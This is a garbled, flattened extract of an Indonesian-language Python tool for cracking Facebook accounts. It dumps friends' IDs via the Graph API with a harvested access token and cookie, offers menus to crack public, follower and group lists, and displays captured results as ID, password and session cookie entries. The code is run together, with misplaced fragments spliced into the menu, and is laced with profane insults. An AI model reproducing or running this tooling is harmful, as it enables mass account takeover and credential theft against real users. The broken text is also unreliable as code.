 time.sleep(5)  login_lagi334() os.system('clear') banner() ip = requests.get("https://api.ipify.org").text cetak(nel('\tSelamat Datang [green]%s[white] Ngentod'%(my_name))) alvino_xy(f'>> ID TO : '+str(my_id)) alvino_xy(f'>> IP TO : {ip}') print('') print('>> 1. CRACK PUBLIC ') print('>> 2. CRACK FOLLOWERS ') print('>> 3. CRACK GRUOP ') print('>> 4. CRACK FILE ') print('>> 5. HASIL CRACK ') print('>> 0.  ua=open('.bbnew.txt','r').read().splitlines()#------------[ iboka ]---------------#id,id2,loop,ok,cp,akun,oprek,method,lisensiku,taplikasi,tokenku,uid,lisensikuni= [],[],DARCHUN ') _hamahama_ = input('\n>> CHOSE : ') if _hamahama_ in ['1']:  dump_massal() elif _hamahama_ in ['2']:  dump_follower() elif _hamahama_ in ['3']:  error() elif _hamahama_ in ['4']:  crack_file() elif _hamahama_ in ['5']:  result() elif _hamahama___ in ['0']:  os.system('rm -rf .token.txt')  os.system('rm -rf .cookie.txt')  print('>> Sukses Logout+Hapus Kukis ')  exit() else:  print('>> Pilih Yang Bener Asu ')  back()def error(): print(f'{k}>> Maaf Fitur Ini Masih Di Perbaiki {x}') time.sleep(4) back()#-----------------[ HASIL-CRACK ]-----------------#def result(): print('>> Hasil OK Anda ') print('>> Hasil CP Anda ') print('>> Kembali ') kz = input('\n>> Pilih : ') if kz in ['1','01']:  try:vin = os.listdir('CP')  except FileNotFoundError:   print('>> File Tidak Di Temukan ')   time.sleep(3)   back()  if len(vin)==0:   print('>> Anda Tidak Memiliki Hasil CP ')   time.sleep(2)   back()  else:   cih = 0   lol = {}   for isi in vin:    try:hem = open('CP/'+isi,'r').readlines()    except:continue    cih+=1    if cih<10:     nom = '0'+str(cih)     lol.update({str(cih):str(isi)})     lol.update({nom:str(isi)})     print('['+nom+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)    else:     lol.update({str(cih):str(isi)})     print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)   geeh = input('\n>> Pilih : ')   try:geh = lol[geeh]   except KeyError:    print('>> Pilih Yang Bener Kontol ')    exit()   try:lin = open('CP/'+geh,'r').read().splitlines()   except:    print('>> File Tidak Di Temukan ')    time.sleep(2)    back()   nocp=0   for cpku in range(len(lin)):    cpkuni=lin[nocp].split('|')    cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}'    sol().print(mark(cpkuh,style="yellow"))    nocp +=1   input('[ Klik Enter ]')   back() elif kz in ['2','02']:  try:vin = os.listdir('OK')  except FileNotFoundError:   print('>> File Tidak Di Temukan ')   time.sleep(2)   back()  if len(vin)==0:   print('>> Anda Tidak Mempunyai File OK ')   time.sleep(2)   back()  else:   cih = 0   lol = {}   for isi in vin:    try:hem = open('OK/'+isi,'r').readlines()    except:continue    cih+=1    if cih<100:     nom = '0'+str(cih)     lol.update({str(cih):str(isi)})     lol.update({nom:str(isi)})     print('['+nom+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)    else:     lol.update({str(cih):str(isi)})     print('['+str(cih)+'] '+isi+' [ '+str(len(hem))+' Account ]'+x)   geeh = input('\n>> Pilih : ')   try:geh = lol[geeh]   except KeyError:    print('>> Pilih Yang Bener Kontol ')    exit()   try:lin = open('OK/'+geh,'r').read().splitlines()   except:    print('>> File Tidak Di Temukan ')    time.sleep(2)    back()   nocp=0   for cpku in range(len(lin)):    cpkuni=lin[nocp].split('|')    cpkuh=f'# ID : {cpkuni[0]} PASSWORD : {cpkuni[1]}'    sol().print(mark(cpkuh,style="green"))    print(f'{hh}COOKIE : {x}{cpkuni[2]}')    nocp +=1   input('[ Klik Enter ]')   back() elif kz in ['0','00']:  back() else:  print('>> Pilih Yang Bener Kontol ')  exit()#-------------------[ CRACK-PUBLIK ]----------------#def dump_massal(): try:  token = open('.token.txt','r').read()  cok = open('.cok.txt','r').read() except IOError:  exit() try:  jum = int(input('>> CHAN ID DA ANEY ? : ')) except ValueError:  print('>> Masukkan Angka Anjing, Malah Huruff ')  exit() if jum<1 or jum>100:  print('>> Gagal Dump Idz ')  exit() ses=requests.Session() yz = 0 for met in range(jum):  yz+=1  kl = input('>> ID '+str(yz)+' : ')  uid.append(kl) for userr in uid:  try:   col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()   for mi in col['friends']['data']:    try:     iso = (mi['id']+'|'+mi['name'])     if iso in id:pass     else:id.append(iso)    except:continue  except (KeyError,IOError):   pass  except requests.exceptions.ConnectionError:   print('>> Sinyal Loh Kek Kontoll ')   exit() try:  print('')  print(f'>> ALL ID DUMP{h}'+str(len(id)))  setting() except requests.exceptions.ConnectionError:
[],[]#------------[ mstafa-COLOR ]--------------#P = '\x1b[1;97m'M = '\x1b[1;91m'H = '\x1b[1;92m'K = '\x1b[1;93m'B = '\x1b[1;94m'U = '\x1b[1;95m' O = '\x1b[1;96m'N = '\x1b[0m' Z = "\033[1;30m"sir = '\033[41m\x1b[1;97m'x = '\33[m' #
